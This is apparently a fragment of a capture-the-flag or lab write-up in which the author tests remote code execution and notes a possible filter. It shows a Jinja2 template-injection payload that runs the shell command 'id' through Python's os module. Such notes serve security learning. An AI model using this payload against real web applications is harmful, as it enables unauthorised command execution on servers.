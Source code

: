 ![](/assets/obsidian/a83cd25d1ed5e1c487f27b27edd2574e.png)

I tried a simple payload to test RCE, but it returned `500` status code, which indicates there might be a filter

- Payload

```python
{{ lipsum.__globals__["os"].popen('id').read() }}')()}}
```

![](/assets/obsidian/965c24c14359e97eae5a2072def35308.png)
